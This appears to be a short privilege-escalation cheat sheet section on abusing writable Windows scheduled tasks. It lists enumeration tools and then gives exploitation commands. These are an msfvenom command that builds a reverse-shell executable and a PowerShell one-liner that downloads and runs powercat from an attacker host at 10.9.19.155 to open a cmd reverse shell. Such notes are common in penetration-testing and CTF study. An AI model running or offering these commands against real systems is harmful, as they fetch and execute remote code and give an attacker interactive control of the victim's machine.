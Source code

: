 # 6. Scheduled tasks
## Detection  
- Get-ModifiableScheduledTaskFile (PowerUp.ps1)  
- WinPEAS : Section : Scheduled Applications
- accesschk.exe /accepteula -qvw C:\DevTools\CleanUp.ps1
- Look for unsual Folders / Scripts


## Exploitation  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.19.155 LPORT=9001 -f exe -o reverse.exe  
```
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.9.19.155:8000/powercat.ps1') ; powercat -c 10.9.19.155 -p 9001 -e cmd
```